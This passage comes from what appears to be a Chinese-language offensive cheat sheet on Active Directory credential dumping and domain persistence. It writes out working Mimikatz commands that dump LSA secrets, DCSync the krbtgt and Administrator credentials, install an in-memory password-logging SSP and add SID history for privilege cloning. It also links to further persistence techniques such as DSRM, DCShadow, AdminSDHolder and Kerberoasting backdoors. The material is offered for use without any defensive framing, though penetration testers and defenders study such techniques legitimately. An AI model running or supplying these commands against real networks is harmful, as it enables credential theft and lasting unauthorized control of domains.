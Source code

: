 ```
mimikatz lsadump::lsa /inject exit 
```
* 使用PowerShell Mimikatz
* 使用Mimikatz的DCSync 远程转储Active Directory凭证
提取 KRBTGT用户帐户的密码数据：

```
Mimikatz "privilege::debug" "lsadump::dcsync /domain:rd.adsecurity.org /user：krbtgt"exit
```
管理员用户帐户提取密码数据：
```
Mimikatz "privilege::debug" "lsadump::dcsync /domain:rd.adsecurity.org /user：Administrator" exit

```
* NTDS.dit中提取哈希 
使用esedbexport恢复以后使用ntdsxtract提取 

#### AD持久化 
##### 活动目录持久性技巧 
https://adsecurity.org/?p=1929 
DS恢复模式密码维护 
DSRM密码同步 
>Windows Server 2008 需要安装KB961320补丁才支持DSRM密码同步，Windows Server 2003不支持DSRM密码同步。KB961320:https://support.microsoft.com/en-us/help/961320/a-feature-is-available-for-windows-server-2008-that-lets-you-synchroni,可参考：[巧用DSRM密码同步将域控权限持久化](http://drops.xmd5.com/static/drops/tips-9297.html)

[DCshadow ](https://www.dcshadow.com/)

##### Security Support Provider 
简单的理解为SSP就是一个DLL，用来实现身份认证
```
privilege::debug
misc::memssp
```
这样就不需要重启`c:/windows/system32`可看到新生成的文件kiwissp.log
##### [SID History](https://adsecurity.org/?p=1772) 
SID历史记录允许另一个帐户的访问被有效地克隆到另一个帐户
```
mimikatz "privilege::debug" "misc::addsid bobafett ADSAdministrator"
```
##### [AdminSDHolder＆SDProp ](https://adsecurity.org/?p=1906)
利用AdminSDHolder＆SDProp（重新）获取域管理权限 
##### 组策略 
https://adsecurity.org/?p=2716 
[策略对象在持久化及横向渗透中的应用](https://www.anquanke.com/post/id/86531) 
##### Hook PasswordChangeNotify 
http://www.vuln.cn/6812

##### Kerberoasting后门
[域渗透-Kerberoasting](https://3gstudent.github.io/3gstudent.github.io/%E5%9F%9F%E6%B8%97%E9%80%8F-Kerberoasting/)
